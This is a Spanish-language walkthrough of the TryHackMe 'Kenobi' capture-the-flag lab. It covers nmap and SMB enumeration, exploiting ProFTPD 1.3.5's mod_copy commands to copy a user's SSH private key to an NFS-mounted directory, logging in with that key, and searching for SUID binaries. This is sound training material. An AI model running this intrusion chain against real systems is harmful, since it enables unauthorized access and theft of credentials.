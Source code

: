 https://tryhackme.com/room/kenobi

TODAS LAS IPS QUE SE VEN AQUÍ CAMBIAN...

## Checar los puertos abiertos y checar los samba shares

- nmap 10.10.56.240 -vvv   //para ver los puertos abiertos del servidor
- samba se usa para acceder a recursos, printers, etc en internet o intranet
- se puede usar un script de nmap para enumerar los samba shares
- nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.56.240
- se encuentran 3 ( IPC Service, hidden y printer) con acceso de read/write, read/write, none
![image](https://user-images.githubusercontent.com/44788583/149610228-bdc21841-c9af-4b5c-9aa3-729ca0b6c9f3.png)

- Se puede ver que con el share de anonymous el usuario es kenobi

----

## Enumeración de shares y descarga de archivo por smb

- smbclient //10.10.236.140/anonymous
- ls (para ver que hay ahí y encontramos el archivo log.txt)
- smbget -R smb://10.10.236.140/anonymous para bajar el contenido directo
![image](https://user-images.githubusercontent.com/44788583/149610329-98ccf2c5-20c9-49c7-b0d7-2c165d01b6c3.png)
- Si no aplicamos el comando de smbget, entonces hacemos get log.txt
![image](https://user-images.githubusercontent.com/44788583/149610357-e2f22eb5-c2ba-4a24-91bc-ed0fd4bffd89.png)

- en nuestra máquina, podemos ls para ver si está el archivo, debe descargarse en el current working directory cat log.txt para ver que trae el log file
![image](https://user-images.githubusercontent.com/44788583/148824837-9c9a2abc-9706-41e5-aa1f-d50df520dafb.png)

- Se puede ver que es un archivo de samba log y luego dice que es un archivo de configuración de pro FTPD
![image](https://user-images.githubusercontent.com/44788583/149611227-4ce8a3fd-00d5-4b00-97b7-20f880e2f1f7.png)

----

## Enumeración de RPC Bind

- RPC Bind lo que hace es que convierte las remote procedure calls (RPCs) en direcciones universales
- se enumeran con el siguiente comando de nmap: nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.187.207 (el puerto 11 lo pudimos obtener del primer escaneo de nmap)
- vemos el mount var
![image](https://user-images.githubusercontent.com/44788583/149612257-c9827262-a8e8-4e2e-a9a1-76e2e4243d59.png)


## Ganando acceso inicial con ProFTPD

- Del escaneo inicial con nmap podemos ver que la versión que corre de ProFTPD es 1.3.5
- Ahora correremos un escaneo de exploits para esa versión de ProFTPD
![image](https://user-images.githubusercontent.com/44788583/149611745-3d8e585d-b2d3-4b25-8368-438ed04a7ce0.png)

- Se encuentran 3 exploits con el modulo de copy pero si se busca el 1.3.x hay otro, entonces son 4

- En los módulos de copy se dice que se usa el SITE CPFR y SITE CPTO, entonces los podemos usar desde el exploit o de manera manual porque sabemos que este servidor es vulnerable y esos comandos se pueden ejecutar

----

## Moviendo la llave privada de kenobi

- SITE CPFR /home/kenobi/.ssh/id_rsa
- SITE CPTO /var/tmp/id_rsa (Este último es porque le tienes que agregar un archivo como parametro, por es el último de id_rsa) 
- OJO, dentro de la máquina víctima, lo copiamos hacia la carpeta /var porque a esa sí tenemos acceso, está dentro de la carpeta www
![image](https://user-images.githubusercontent.com/44788583/149612421-9bfb6dec-0a7e-476d-bdd8-d14a3b133217.png)

----

## Montando volumen 

- Lo primero que se debe hacer es una carpeta donde montaremos el volumen copiado. La recomendación es crearla adentro de mnt que es donde usualmente se montan los volúmenes nuevos
- sudo mkdir /mnt/kenobi
![image](https://user-images.githubusercontent.com/44788583/149612680-fe046e3b-c937-44da-b42b-54777b4d2374.png)

- checamos que la carpeta exista con ls /mnt
- luego monntamos el volumen con mount 10.10.197.207:/var /tmp/kenobi (la ip de la máquina vulnerada y la carpeta de la misma, después como segundo parámetro en dónde la estamos montando en nuestra máquina
![image](https://user-images.githubusercontent.com/44788583/149612857-c0a24a63-bf3f-4f77-ad79-bdbb78af58e5.png)

- ls -al para checar los permisos que tenemos 
![image](https://user-images.githubusercontent.com/44788583/149612887-af767f3c-7aea-4d73-9d21-dc0b86767a3b.png)

## Usando la llave copiada para acceder al usuario kenobi 
- checamos la carpeta tmp en el folder donde se montó el volumen con ls /mnt/kenobi/tmp
![image](https://user-images.githubusercontent.com/44788583/149613004-3c21a7c3-4325-4b9c-85f8-efd917eca065.png)
- copiamos el archivo al current working directory con sudo cp /mnt/kenobi/tmp/id_rsa .   (el puntito es para que se copie donde estamos, en el current working directory)
![image](https://user-images.githubusercontent.com/44788583/149613078-708cb6a9-043f-41b5-98cf-d211d883614d.png)
- cambiamos los permisos   para que sólo nosotros podamos modificar y no nos diga warning
- sudo chmod 0400 id_rsa
- Esto evitará lo siguiente: 

![image](https://user-images.githubusercontent.com/44788583/149634256-ce4c8a2b-10ad-4c35-920f-9fedc4ddfcbf.png)

----

## Ingresando como kenobi en ssh por id_rsa
- se pone la el protocolo, el archivo de llave privada, el usuario y la ip
- sudo ssh -i id_rsa kenobi@10.10.187.207
![image](https://user-images.githubusercontent.com/44788583/149613275-47f1cca1-35cd-4e91-acef-5d70395151bb.png)
tamos dentro!
- Buscamos la flag que nos dicen que busquemos en la carpeta kenobi 
![image](https://user-images.githubusercontent.com/44788583/149613327-bcbada8f-468f-4027-94d3-5e0e185798a7.png)

------

## Enumerando archivos que tienen el SUID bit en ellos:
![image](https://user-images.githubusercontent.com/44788583/149634828-0d627916-8bd3-466b-91e7-1fd78d2a1124.png)

- Se ejecuta el siguiente comando: find / -perm -u=s -type f 2>/dev/null

![image](https://user-images.githubusercontent.com/44788583/149634846-810c4f11-256a-44aa-988d-5185adf1b79e.png)
- Se nos pide que encontremos un binario fuera de lo normal, en este caso es usr/bin/menu
- si ejecutamos con el comando: menu, obtenemos lo siguiente
![image](https://user-images.githubusercontent.com/44788583/149634917-6948229e-4917-4a6f-8cb3-e3818b823236.png)

